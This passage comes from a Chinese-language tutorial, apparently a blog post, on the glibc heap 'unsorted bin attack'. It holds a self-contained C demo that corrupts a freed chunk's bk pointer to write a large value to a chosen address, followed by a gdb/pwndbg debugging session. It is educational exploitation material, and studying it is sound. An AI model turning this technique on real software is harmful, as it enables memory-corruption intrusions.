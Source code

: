```c
    fprintf(stderr, "再分配一个避免与 top chunk 合并\n\n");
    malloc(500);

    free(p);
    fprintf(stderr, "当我们释放掉第一个 chunk 之后他会被放到 unsorted bin 中，同时它的 bk 指针为 %p\n",(void*)p[1]);

    p[1]=(unsigned long)(&stack_var-2);
    fprintf(stderr, "现在假设有个漏洞，可以让我们修改 free 了的 chunk 的 bk 指针\n");
    fprintf(stderr, "我们把目标地址（想要改为超大值的那个地方）减去 0x10 写到 bk 指针:%p\n\n",(void*)p[1]);

    malloc(0x410);
    fprintf(stderr, "再去 malloc 的时候可以发现那里的值已经改变为 unsorted bin 的地址\n");
    fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

大致看一下流程，然后开始进行调试。

> 编译命令：gcc -g demo.c -o demo
>

## 开始调试****
首先对代码的第12行下断点，开始调试程序：

```c
ubuntu@ubuntu:~/Desktop/unsortedbin_demo$ gdb demo
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from demo...done.
pwndbg> b 12
Breakpoint 1 at 0x400722: file demo.c, line 12.
pwndbg> r
Starting program: /home/ubuntu/Desktop/unsortedbin_demo/demo 
unsorted bin attack 实现了把一个超级大的数（unsorted bin 的地址）写到一个地方
实际上这种攻击方法常常用来修改 global_max_fast 来为进一步的 fastbin attack 做准备

我们准备把这个地方 0x7fffffffdd78 的值 0 更改为一个很大的数


Breakpoint 1, main () at demo.c:12
12	    unsigned long *p=malloc(0x410);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────
 RAX  0x51
 RBX  0x0
 RCX  0x7ffff7b04380 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x7ffff7dd3770 (_IO_stdfile_2_lock) ◂— 0x0
 RDI  0x2
 RSI  0x7fffffffb6e0 ◂— 0x87e5acbbe49188e6
```